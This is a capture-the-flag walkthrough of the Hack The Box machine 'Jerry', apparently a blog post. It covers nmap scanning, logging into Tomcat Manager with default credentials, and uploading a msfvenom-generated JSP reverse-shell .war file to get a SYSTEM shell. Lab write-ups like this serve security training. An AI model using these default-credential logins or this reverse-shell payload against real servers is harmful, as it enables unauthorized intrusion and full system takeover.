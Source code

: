 ﻿---
title: 'Jerry Walkthrough: Brute-Forcing Default Service Credentials '
date: 2024-10-28 12:00:00 +0530
categories: [red-teaming]
tags:
- HTB
- standalone
- brute-force
description: Walkthrough of HTB's Jerry machine
---
### Recon

Started with NMAP Scan to discover open ports

```bash
sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.10.95 --max-retries 0 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 08:43 EDT
Warning: 10.10.10.95 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.95
Host is up (0.093s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 88.83 seconds
```

To further identify the SMB version running and possibly determine the OS, I ran a targeted Nmap Aggressive scan:

```bash
sudo nmap -A -n -Pn --disable-arp-ping --stats-every=5s -p 8080 10.10.10.95 --max-retries 0
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

Nmap done: 1 IP address (1 host up) scanned in 18.62 seconds

```

A service named â€œApache Tomcatâ€ running on the port 8080. The http-open-proxy script indicates that the server might be misconfigured as an open proxy.

### Nmap Flags:

- **`sS`**: Performs a SYN scan (stealth scan).
- **`n`**: Disables DNS resolution to speed up scanning.
- **`-disable-arp-ping`**: Skips ARP ping.
- **`p`**: Scans all of the ports.
- **`A`**: Agressive Scan, which performs OS Detection, Version detection, Default script scanning
- **`--script=vuln,exploit` :** Runs NMAP default NSE vuln, exploit scripts to identify potential vulnerabilities.

NMAP was unable to determine any vulnerabilities for the service, but found some interesting paths

```bash

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder

```

### Brute-Forcing credentials

![image.png]({ '/assets/img/Jerry/image.png' | relative_url })

Tried accessing â€œServer statusâ€, which returned a pop-up asking for credentials to access the page as shown below.

![image.png]({ '/assets/img/Jerry/image%201.png' | relative_url })

Brute-forced few known credentials found on [google](https://stackoverflow.com/questions/3829513/what-is-the-default-username-and-password-in-tomcat). Username:Password- admin:admin worked for logging into â€œServer Statusâ€, â€œManager Appâ€,â€Host Managerâ€

Found some interesting information on the webpage â€œHost Managerâ€ 

![image.png]({ '/assets/img/Jerry/image%202.png' | relative_url })

With the credentials obtained tomcat:s3cret (Username:Password), logged into â€œTomcat Web Application Managerâ€ on an another Private tab. 

![image.png]({ '/assets/img/Jerry/image%203.png' | relative_url })

As the tomcat user, we can upload a .war file  to the server.

![image.png]({ '/assets/img/Jerry/image%204.png' | relative_url })

A .war (Web application Archive) file is a packaged file format used to distribute Java-based web applications. It stands for Web application resource and is essentially a compressed archive similar to a .zip file., but with a speific structure intended for deployment on a Java EE server, such as Apache Tomcat.

### Generating Payload & Obtaining a Reverse Shell

Generating .war payloads using â€œmsfvenomâ€

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -Ff war -o test.war
```

Successfully uploaded the file (test.war) to the server

![image.png]({ '/assets/img/Jerry/image%205.png' | relative_url })

Accessing the file via web browser at â€œtestâ€ location resulted in obtaining a reverse shell.

![image.png]({ '/assets/img/Jerry/image%206.png' | relative_url })

Obtained shell has SYSTEM Privileges

![image.png]({ '/assets/img/Jerry/image%207.png' | relative_url })

The flags are located at Administratorâ€™s Desktop

![image.png]({ '/assets/img/Jerry/image%208.png' | relative_url })

### Disclaimer

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

